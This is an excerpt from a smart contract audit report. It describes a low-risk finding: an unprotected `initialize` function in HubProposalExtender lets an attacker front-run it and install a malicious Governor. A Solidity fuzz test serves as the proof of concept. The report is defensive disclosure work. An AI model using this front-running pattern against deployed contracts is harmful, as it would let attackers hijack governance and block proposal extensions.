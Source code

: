 **Lead Auditors**

[0kage](https://twitter.com/0kage_eth)

[Hans](https://twitter.com/hansfriese)

**Assisting Auditors**



---

# Findings
## Low Risk


### Lack of access control in `HubProposalExtender::initialize`

**Description:** `HubProposalExtender::initialize` can only be called once. Lack of access control in this function would mean that an attacker can front-run this function to set a a malicious Governor. This can prevent the extender admin from extending duration for any proposal

**Impact:** Front-running initialize can potentially prevent extension of proposals

**Proof of Concept:** Run the following fuzz test:

```solidity
  function testFuzz_FrontRun_HubProposalExtender_Initialize(address attacker, address maliciousGovernor) public {
    vm.assume(attacker != address(0) && attacker != address(this) && attacker != address(timelock));
    vm.assume(maliciousGovernor != address(0) && maliciousGovernor != address(governor));

    // Create a new HubProposalExtender
    HubProposalExtenderHarness newExtender = new HubProposalExtenderHarness(
        whitelistedExtender,
        extensionDuration,
        address(timelock),
        minimumTime,
        voteWeightWindow,
        minimumTime
    );

    // Attacker front-runs the initialization
    vm.prank(attacker);
    newExtender.initialize(payable(maliciousGovernor));

    // Assert that the malicious governor was set
    assertEq(address(newExtender.governor()), maliciousGovernor);

    // Attempt to initialize again with the intended governor (this should fail)
    vm.prank(address(timelock));
    vm.expectRevert(HubProposalExtender.AlreadyInitialized.selector);
    newExtender.initialize(payable(address(governor)));

    // Assert that the governor is still the malicious one
    assertEq(address(newExtender.governor()), maliciousGovernor);
}
```
